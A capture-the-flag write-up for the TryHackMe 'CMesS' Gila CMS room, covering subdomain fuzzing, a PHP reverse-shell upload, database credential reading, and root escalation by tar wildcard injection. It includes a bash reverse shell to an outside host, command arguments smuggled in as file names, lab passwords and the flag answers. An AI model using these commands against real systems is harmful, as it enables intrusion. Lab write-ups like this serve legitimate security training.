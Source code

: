# [CMesS](https://tryhackme.com/room/cmess)

> Can you root this Gila CMS box?

## Scanning

scan the machine

```
nmap -A -T4 10.10.29.227
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ca733caf-5386-49c6-ad42-76bf0a244dd6)

## HTTP

before starting, add machine to host

```
echo "10.10.29.227 cmess.thm" >> /etc/hosts
```

check webpage, we have a gila cms

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/32887f06-8966-403c-b4df-71e49ec315ea)

i tested with the searchbar, nothing there

check robots.txt, seem nothing

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c535ee25-4263-4a78-8e67-393fe19110ba)

## Enumeration

i found a login but it'seem normal

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/43be46ed-2ab1-434c-a6fc-74b8840b4f5a)

as a hint, scan the subdomain, because of restrict from /etc/hosts, i will use wfuzz

```
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" --hw 290
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e0a40713-5902-4f34-8452-964b0fa554a8)

```
echo "10.10.58.145 dev.cmess.thm" >> /etc/hosts
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e4a932b9-6415-4a15-96b5-34dda1c597c1)

login to admin panel

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/fd89f306-df61-4496-90f7-8c6a615f0c29)

## Exploitation

now, we can upload a reverse shell

```
cp /usr/share/webshells/php/php-reverse-shell.php .
vi php-reverse-shell.php
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/99351a09-3415-4786-b39d-fdbaee761c72)

after upload, i see our files in /assets

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/0573d219-69f8-48a9-8a7b-ba0e7b93d2fa)

```
nc -vlnp 1234
```

click on `http://cmess.thm/assets/php-reverse-shell.php`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b218db2d-0be3-4c6a-a12a-38cf11bb4503)

```
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
```

login to database using the following credential

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/a3b83ed4-cb61-4f2a-ad95-0808c276ea7f)

```
mysql -u root -p
r0otus3rpassw0rd
show databases;
use gila;
show tables;
SELECT * FROM user;
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e828658c-c8e8-4a37-a190-8862d5bcd0d9)

when we cracked it we indeed found that it's the pass we already had

i found something in /tmp folder

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/7bf9ba22-3896-4016-822a-b92424196ae1)

there also contain a backup password in /opt

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c4a53886-c358-4e97-87d4-53e52f9ff773)

```
su andre
UQfsdCB7aAP6
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3adbe1fa-4077-41e6-8caa-d4694cb84128)

| Flag | user.txt |
| --- | --- |
| Answer | thm{c529b5d5d6ab6b430b7eb1903b2b5e1b} |

## Privilege Escalation

check cronjob, i found something interesting

```
cat /etc/crontab
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/87aac9e1-c9f6-4bd9-b3ea-314671f12c58)

it says root will backup everything in our backup folder to /tmp as tar.gz

quick search, i see a Wildcard injection

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f4936869-89de-4333-b619-5a1ee6002f15)

you can also find it in GTFOBins

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/a1b82683-c078-4782-aa4e-0ab9176e9c9a)

create a shell.sh on /home/adre/backup

```
#!/bin/bash
bash -i >& /dev/tcp/10.18.37.45/4444 0>&1
```

then we execute the following

```
echo "" > "--checkpoint-action=exec=bash shell.sh"
echo "" > --checkpoint=1
```

setup a listener

```
nc -lnvp 4444
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/97cca0c8-9874-4981-b251-514f015832c5)

| Flag | root.txt |
| --- | --- |
| Answer | thm{9f85b7fdeb2cf96985bf5761a93546a2} |
